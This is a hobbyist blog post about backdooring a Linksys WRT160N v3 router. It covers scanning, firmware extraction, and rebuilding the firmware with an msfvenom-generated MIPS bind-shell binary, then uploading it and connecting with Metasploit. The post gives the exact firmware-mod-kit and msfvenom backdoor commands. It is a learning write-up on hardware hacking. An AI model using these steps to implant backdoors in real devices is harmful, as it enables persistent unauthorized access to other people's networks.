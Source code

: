 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides he needs to learn some embedded, or hardware related cyber.
My friend had an old router collection that he found laying around, and I knew it was the right time.
![linksys_router](https://user-images.githubusercontent.com/53023744/196064650-137f185d-7708-45a7-8b88-ed1d16f43112.jpg)


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


# Attack Surface
## NMAP
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researhing about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


## Web Server
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execve().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


# Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


## Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the article Elon wrote, I tried to reverse the binary and search for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() to see if there's any unsanitized user input being used in important places.


## Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

### msfvenom
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor```


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)


Now I ran the `./build-firmware.sh` command and I got a new firmware!
Let's upload it :)




# Victory
I went onto the firmware upgrade page, and uploaded the firmware:

![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw that the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different (hehe):

![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)


I quickly fired up Metasploit's listener and got a connection:

![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)


I have a bind shell running on the router!
TBH, It was really fun.
